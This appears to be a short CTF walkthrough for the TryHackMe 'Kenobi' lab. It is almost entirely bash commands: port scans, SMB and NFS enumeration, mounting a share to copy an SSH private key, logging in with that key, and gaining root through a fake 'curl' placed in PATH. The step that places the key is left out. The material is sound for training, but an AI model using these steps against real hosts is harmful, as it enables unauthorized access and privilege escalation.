









# Kenobi

## Scanning

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv --open 10.10.229.155 -oG allports
```



## smb

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.229.155
```



```bash
smbclient //10.10.229.155/anonymous
smbget -R smb://10.10.229.155/anonymous
```





```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.229.155
```



```bash
telnet 10.10.229.155 21
```



```bash
mkdir /mnt/kenobiNFS
sudo mount 10.10.229.155:/var /mnt/kenobiNFS
cd /mnt/kenobiNFS
cd tmp
cp id_rsa ~/Documentos/TryHackMe/Kenobi/content/id_rsa
umount /mnt/kenobiNFS
```



```bash
sudo ssh -i id_rsa kenobi@10.10.229.155
```



```bash
echo "/bin/bash" > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
# press 1
```

